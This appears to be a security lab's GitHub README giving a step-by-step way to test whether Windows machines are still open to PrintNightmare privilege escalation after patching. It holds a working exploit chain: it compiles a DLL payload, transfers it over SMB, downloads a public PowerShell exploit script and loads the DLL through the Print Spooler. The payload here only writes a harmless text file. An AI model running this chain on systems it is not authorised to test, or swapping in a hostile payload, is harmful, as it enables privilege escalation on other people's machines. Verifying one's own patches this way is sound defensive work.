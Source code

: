 # Test if you are still vulnerable to PrintNightmare's privesc after patching

PrintNightmare (CVE-2021-1675 / CVE 2021 34527) is an exploit that takes advantage of the AddPrintDriver function of the Spooler to arbitrarily execute files with high-privs.

There is some confusion if the round of patches released by Microsoft on 6th July 2021. It seems the RCE portion of the exploit is patched, but the privilege escalation may still be vulnerable.

We have put together a step-by-step to run a test PoC to see if the recent patch has been effective for your machine. This guide will do no damage to your machine, neither should it crash the machine or spooler. It will simply write `C:\PrintNightmare.txt`

Thanks to John Hammond and Caleb Stewart from Huntress for releasing this [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) of PrintNightmare

## Pre-check
```powershell
get-service spooler
```
![image](https://user-images.githubusercontent.com/49488209/124728554-9a371b80-df07-11eb-8e91-8d30eea92e73.png)

If spooler isn't running, won't be vulnerable, you can quit here and now.
Otherwise if running, begin exploitation.

## Prepare non-Malicious DLL
Run this on your attacker box

#### Install Dependencies
```bash
sudo apt apt install gcc-mingw-w64
sudo apt-get install g++-mingw-w64-x86-64
```
### Write the Dll
```bash
nano nightmare.cpp
```

This DLL will just print an innocent, non-malicious file called *Printnightmare.txt* to *C:\*

```cpp
#include <windows.h>

int printy()
{
  WinExec("cmd.exe /c echo > C:\\printnightmare.txt",0);
   return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  printy();
  return 0;
}
```

#### Compile DLL
```bash
sudo x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL nightmare.cpp         
sudo x86_64-w64-mingw32-g++ -shared -o nightmare.dll nightmare.o -Wl,--out-implib,nightmare.a
```
![image](https://user-images.githubusercontent.com/49488209/124728640-a9b66480-df07-11eb-9c9d-42e2cea1b6c7.png)

## Transfer DLL however you like, impacket's smbserver.py works
### In Kali
```bash
sudo impacket-smbserver kali . -smb2support
```
![2021-07-07_09-43](https://user-images.githubusercontent.com/49488209/124728745-bdfa6180-df07-11eb-876b-1155026cb191.png)


### Copy from Kali to in Windows
```cmd
:: I copied mine into C:\
copy \\yourip\\kali\\nightmare.dll
```
![image](https://user-images.githubusercontent.com/49488209/124728825-cf436e00-df07-11eb-9ff5-d56bc338720a.png)


## Exploit
### Pull Powershell exploit, written by John Hammond and Caleb from Huntress

```powershell
invoke-webrequest -uri "https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1" -UseBasicParsing -outfile CVE-2021-1675.ps1
```

#### Deploy Exploit
```powershell
import-module .\CVE-2021-1675.ps1
Invoke-Nightmare -DLL "C:\nightmare.dll"
```
![image](https://user-images.githubusercontent.com/49488209/124728899-e2563e00-df07-11eb-9b30-96d8509caad8.png)


### Check C:\ for PrintNightmare.txt
![image](https://user-images.githubusercontent.com/49488209/124728938-eb470f80-df07-11eb-9acb-03bfe59a14ec.png)

It doesn't matter what its contents is, it just matters that it exists. 

### For any questions, comments, and criticisms, please find us on Twitter at [LABS](https://twitter.com/jumpseclabs?lang=en) or on [MAIN](https://twitter.com/jumpsec)
